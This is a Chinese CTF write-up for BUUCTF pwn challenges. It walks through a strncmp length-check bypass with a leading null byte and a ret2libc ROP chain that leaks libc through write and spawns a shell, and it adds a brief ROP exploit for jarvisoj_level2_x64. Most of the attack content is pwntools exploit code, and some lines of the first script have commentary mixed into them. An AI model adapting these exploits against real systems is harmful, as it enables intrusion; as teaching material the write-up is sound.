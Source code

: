 这个函数将buf[7]作为参数出传进来，将它的ASCII码比对，看到全程序中唯一一个存在栈溢出漏洞可能性的地方。但是必须满足a1的ASCII码值能达到栈溢出的大小。第二个目的：**使a1的ASCII码值（sub_804871F()函数里的buf[7]的ASCII码值尽量大）**

**思路**

使用ROP链寻找libc解题

首先让strncmp结果为零，当buf与s数组完全相同时，strncmp结果会为0，但是s为系统生成的随机数，而buf是我们输入的数据，两者显然不可能相等。另一种办法就是**使v1等于0，这样strncmp的结果仍为0。**而v1是strlen函数读取buf的长度大小，使他为0就很简单了，标准的长度检测绕过，让buf数组的第一位为**‘\x00’**即可。此时程序不会退出

然后让buf[7]的值尽可能大，要实现栈溢出，buf[7]元素的ASCII码值必须大于两百四十多才行，所以要使用转义字符的ASCii码，'\'为转义字符，而’\xhh‘表示ASCII码值与’hh’这个十六进制数相等的符号，例如’\xff’表示ASCII码为255的符号。

```py
from pwn import *
io = process("./pwn")
io = remote('node4.buuoj.cn',25352)
elf = ELF("./pwn")
libc = ELF("libc-2.23.so")
context(log_level="debug",arch="i386")
write_plt = elf.plt["write"]'''选择用write函数泄露libc地址'''
read_got = elf.got["read"]
main_func = 0x08048825
payload1 = b"\x00"长度检测绕过+ b"\xff"*7让buf[7]的值尽可能大,\为转义字符，而’\xhh‘表示ASCII码值与’hh’这个十六进制数相等的符号，例如’\xff’表示ASCII码为255的符号。
io.sendline(payload1)
io.recvline()
payload2 = flat([b"a"*0xE7,b"b"*4,write_plt,main_func,1,read_got,0x8])
io.sendline(payload2)
read_addr = u32(io.recv(4))
print(read_addr)
libcbase = read_addr - libc.symbols["read"]
#print libcbase
system_addr = libcbase + libc.symbols["system"]
binsh = libcbase + next(libc.search(b"/bin/sh"))
print(binsh)
payload3 = flat([b"a"*0xe7,b"b"*4,system_addr,0,binsh])
io.sendline(payload1)
io.recvline()
io.sendline(payload3)
io.interactive() 
```

## jarvisoj_level2_x64

简单的rop

```python
from pwn import *
r= remote('node4.buuoj.cn',27435)
elf=ELF("./level2_x64")
sys_addr=elf.symbols['system']
pop_rdi_addr=0x4006b3
bin_sh=0x600a90
payload=b'a'*0x88+p64(pop_rdi_addr)+p64(bin_sh)+p64(sys_addr)
r.sendline(payload)
r.interactive()
```
